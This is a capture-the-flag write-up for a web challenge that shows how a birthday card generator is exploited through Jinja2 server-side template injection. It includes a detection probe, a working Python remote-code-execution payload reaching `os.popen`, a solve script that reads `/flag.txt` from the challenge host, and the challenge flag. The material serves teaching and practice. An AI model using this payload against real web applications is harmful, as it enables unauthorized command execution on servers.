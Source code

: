 # ASVCTF 2022 - Happy Birthday Writeup
- Type - Web
- Name - Happy Birthday
- Points - 300

## Description
```markdown
Cowabunga dudes and dudettes. 

Michelangelo here, and I've built you a Birthday Card Generator from me and my brothers! Donnie says I need to secure it, but I think it's the coolest thing since sliced pizza.

Party On!
```

## Writeup
When you navigate to a hosted instance, all you see is a very simple page:

<img src="site.png" width="500px">

Any input you place is shown on the page (such as the value `test`, seen below). Note that XSS payloads don't work since the `<` and `>` characters are properly escaped. 

<img src="test.png" width="500px">

At this point, it wasn't clear if the input was going through any sort of server-side check, or if the vulnerability was present elsewhere, but I tried a [Server-Side Template Injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) (SSTI) payload anyway. The most simple payload to test is `{{7*7}}`, and if you see `49` as the result instead of `{{7*7}}`, then you know that the values inside are being processed as code. After trying this, I saw the value `Happy Birthday 49!` reflected, meaning it *was* vulnerable to SSTI!

A quick check of the response headers showed the `Server` set to `Werkzeug/1.0.1 Python/2.7.14`, meaning we had to use a Python SSTI payload to get RCE. I copied a [simple RCE payload from the internet](https://secure-cookie.io/attacks/ssti/#tldr---show-me-the-fun-part) (`{{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}`) to run my code and get the output. After a little looking around, I found that the flag was stored in `/`, so the command `cat /flag.txt` worked!

### Solve Script
Here is my [automated exploit](solve.py) in Python:

```python
import requests
from urllib.parse import urlencode
from bs4 import BeautifulSoup

# define SSTI payload
payload = urlencode({
        "name": "{{'foo'.__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen('cat /flag.txt').read()}}"
    })

# send request and get result
result = requests.request("POST", "http://193.57.159.27:47715/", data=payload, headers={'Content-Type': 'application/x-www-form-urlencoded'})

# parse result for flag
html = BeautifulSoup(result.text, "html.parser")
flag = html.find_all("h1")[0].text
print(flag)
```

**Flag:** `ASV{f31d34e2b726b385741db15fec005661}`